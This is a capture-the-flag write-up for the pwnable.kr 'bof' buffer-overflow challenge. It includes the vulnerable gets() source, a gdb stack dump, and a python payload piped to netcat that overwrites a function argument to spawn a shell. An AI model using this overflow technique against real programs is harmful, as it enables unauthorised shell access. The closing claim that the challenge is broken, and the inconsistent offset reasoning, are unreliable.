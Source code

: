# bof - pwnable.kr
- Challenge Name: __bof__
- Challenge category: __pwn__
- Challenge Difficulty: __easy__
- CTF Year and Date: __2025__
- Date: __2025-05-12__

## Challenge Description
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

# Information Gathering
The challenge is hosted on an server, that may be accessed by ssh:
`ssh bof@pwnable.kr -p2222 (pw: guest)`

```shell
bof@ubuntu:~$ ls -la
total 44
drwxr-x---   2 root bof   4096 Apr  3 16:04 .
drwxr-xr-x 129 root root  4096 May  6 09:27 ..
-rw-r--r--   1 root root   220 Feb 14 11:22 .bash_logout
-rw-r--r--   1 root root  3771 Feb 14 11:22 .bashrc
-rw-r--r--   1 root root   811 Apr  3 16:04 .profile
-rwxr-xr-x   1 root bof  15300 Mar 26 13:03 bof
-rw-r--r--   1 root root   342 Mar 26 13:09 bof.c
-rw-r--r--   1 root root    86 Apr  3 16:03 readme
```
Get the file information
```shell
file bof
bof: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=1cabd158f67491e9edb3df0219ac3a4ef165dc76, for GNU/Linux 3.2.0, not stripped
````

```shell
bof@ubuntu:~$ checksec --file bof
[!] Could not populate PLT: [Errno 12] Cannot allocate memory
[*] '/home/bof/bof'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No

````

The binary has stack protection enabled (canary) and has position-independent code (PIC) enabled. The binary runs properly regardless of the memory location it’s loaded at, i.e., the memory location doesn’t need to be a fixed address.

The source code of the binary is provided in `bof.c`

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		setregid(getegid(), getegid());
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
````

The readme contains insructions on how to get the flag: 
```shell
cat readme
bof binary is running at "nc 0 9000" under bof_pwn privilege. get shell and read flag
```
## Vulnerability
The binary has a buffer overflow vulnerabilty because the gets() function performs no check on the size of the input. It will keep on accepting input until a newline is encountered irrespective of the size of the variable in which the input is being stored. This property is described as a lack of ‘bounds checking’.

Because canaries are used, the stack is protected against overflow-attacks: 

```shell
bof@ubuntu:~$ ./bof
overflow me : 1234567890123456789012345678901234
Nah..
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

## Summary of recon
- A binary with a buffer overflow vunerabilty
- The binary has stack protection enabled (canary)

# Solution/Exploit
## Task
To get the shell, we must overwrite the function local variable with the value `0xcafebabe`. This can be done with a payload that gets read by the gets() function and will overflow the `overflowme` buffer. However, we can possibly ignore the stack protection (canary), because we get shell BEFORE the function returns control to main (where stack manipulation will be detected.)

## Strategy

1. Use the debugger on the target system to calculate the offset needed to overwrite the function parameter

```shell
gdb
pwndbg> file bof
pwndbg> start
```

Use next, step and disassemble to find the position, where gets() returns, just before the parameter gets compared to the constant value of `0xcafebabe`. Then hit c (contiune) - we enter the string `AAAABBBBCCCCDDDDEEEEFFFF` on the stack, we can see that the value of the parameter is on the stack 7 * 4 bytes after the end of the overflowme buffer:

```text
pwndbg> x/40wx $sp
0xffffd4f0:	0xf7ffd608	0x00000020	0x00000000	0x41414141
0xffffd500:	0x42424242	0x43434343	0x44444444	0x45454545
0xffffd510:	0x46464646	0x00000000	0xf7d954be	0x8899f900
0xffffd520:	0xf7fa7000	0xffffd614	0xffffd548	0x565562c5
0xffffd530:	>0xdeadbeef<	0xf7fbe66c	0xf7fbeb30	0x565562b3
0xffffd540:	0x00000001	0xffffd560	0xf7ffd020	0xf7d9e519
0xffffd550:	0xffffd753	0x00000070	0xf7ffd000	0xf7d9e519
0xffffd560:	0x00000001	0xffffd614	0xffffd61c	0xffffd580
0xffffd570:	0xf7fa7000	0x5655629d	0x00000001	0xffffd614
0xffffd580:	0xf7fa7000	0xffffd614	0xf7ffcb80	0xf7ffd020
```

We can calculate the distance between our input and 0xdeadbeef easily, each hex value represents 4 bytes (0x41414141 == AAAA) and we have exactly 13 of them before 0xdeadbeef.

We can create the payload using a simple python script and pass it to nc: 

```shell
python3 -c "import sys; sys.stdout.buffer.write(b''.join([b'A' * 52]) + b'\xbe\xba\xfe\xca' + b'\n')" | nc 0 9000 
````

But there is no shell. However, when we alter the value of that should overwrite the parameter `key`we get a `stack smashed` warning: 

```shell
bof@ubuntu:~$ python3 -c "import sys; sys.stdout.buffer.write(b''.join([b'A' * 52]) + b'\xbe\xba\xfe\xce' + b'\n')" | nc 0 9000
*** stack smashing detected ***: terminated
```

# Conclusion
- The challenge seems to be broken. 

# References

